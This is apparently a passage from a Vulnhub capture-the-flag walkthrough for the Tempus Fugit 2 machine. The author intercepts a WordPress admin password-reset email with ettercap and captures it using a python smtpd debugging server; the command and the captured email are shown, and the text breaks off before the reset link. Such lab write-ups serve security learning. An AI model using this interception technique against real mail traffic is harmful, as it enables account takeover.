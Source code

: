 ![8bdb6affc5f3e652abffe2c697c8cef3.png](../../resources/383e844b637147ffa532e6a945bc6bd9.png)

Now if I try to send a password reset link for the admin user I can see that ettercap intercepts the email 

![5aed9d59d090d1cd415648a6ead5be00.png](../../resources/016dad98120e4d839c11aebd87969af4.png)

Now I just need to set up my own email server to capture that email. Easiest way to do that is with python's smtpd module. Once that is done and I hit the reset password, I end up capturing the email with the password reset link
```
root@kali:~/Documents/Vulnhub/Tempus-2# sudo python -m smtpd -n -c DebuggingServer 192.168.86.135:25
---------- MESSAGE FOLLOWS ----------
Date: Fri, 10 Apr 2020 19:59:51 +0000
To: tfadmin@tempusfugit2.com
From: Tempus Fugit 2 <tfadmin@f20.be>
Subject: [Tempus Fugit 2] Password Reset
Message-ID: <0e14fbfc4653c3a376edbabe1cc334ba@tf2>
X-Mailer: WPMailSMTP/Mailer/smtp 1.6.2
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
X-Peer: 192.168.86.136

Someone has requested a password reset for the following account:

Site Name: Tempus Fugit 2

Username: admin

If this was a mistake, just ignore this email and nothing will happen.

To reset your password, visit the following address:
```